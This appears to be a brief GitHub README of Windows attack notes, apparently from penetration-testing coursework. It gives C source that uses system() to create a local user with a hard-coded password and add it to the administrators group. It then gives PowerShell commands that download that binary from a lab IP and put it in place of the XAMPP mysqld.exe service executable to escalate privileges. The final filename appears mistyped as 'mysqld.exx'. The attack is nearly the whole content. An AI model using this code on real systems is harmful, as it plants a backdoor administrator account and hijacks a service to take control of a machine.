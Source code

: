 # Scripts_Windows


## Add user to the system via Leavrginy mysql service. 
### Indicator:


![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/6ce3ca29-2b07-48a9-a59e-e4df5648a6c5)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
## Simply replace the service
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exx
```
